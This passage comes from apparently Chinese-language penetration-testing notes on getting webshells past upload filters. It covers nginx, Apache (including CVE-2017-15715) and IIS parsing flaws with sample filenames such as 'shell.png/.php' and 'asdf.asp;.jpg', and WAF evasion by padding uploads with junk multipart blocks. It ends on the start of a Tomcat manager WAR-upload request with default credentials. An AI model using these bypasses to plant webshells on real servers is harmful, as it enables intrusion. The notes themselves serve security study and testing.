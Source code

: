4. `00`截断

5. 解析漏洞

>nginx

用户配置不当造成解析漏洞,增加`/.php`后缀,被解析为PHP文件

```
shell.png/.php
```

>apache httpd

- Apache解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断

`a.php.asdfqwer`解析为php

- CVE-2017-15715

上传`xxx.php\x0A`,访问`/1.php%0A`

>IIS6

- 在`.asp`和`.asa`目录下的任意文件都会解析成asp

- 服务器默认不解析`;`后面的内容

`asdf.asp;.jpg`会被解析为asp

- 罕见后缀

```
.asa
.cer
.cdx
```

>IIS7/7.5

类似于nginx解析漏洞

##### WAF层面的黑名单

1. 垃圾数据

- 在要上传的webshell中添加垃圾数据

- 利用`multipart/form-data`的特性,添加多个垃圾数据块,部分WAF存在无法处理多个数据块的情况

2. 畸形数据包

todo


---

以tomcat manager部署war包为例

```
POST /manager/html/upload;jsessionid=90151C6DAF8D510DF8E71D036D47F1F4?org.apache.catalina.filters.CSRF_NONCE=2812C24315E7A0FC3C55DB6D125DB7BC HTTP/1.1
Host: 192.168.89.129:8080
Content-Length: 1379
Cache-Control: max-age=0
Authorization: Basic dG9tY2F0OnRvbWNhdA==
Origin: http://192.168.89.129:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCYU5Y59MNL5BAit4
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.89.129:8080/manager/html
Accept-Encoding: gzip, deflate
```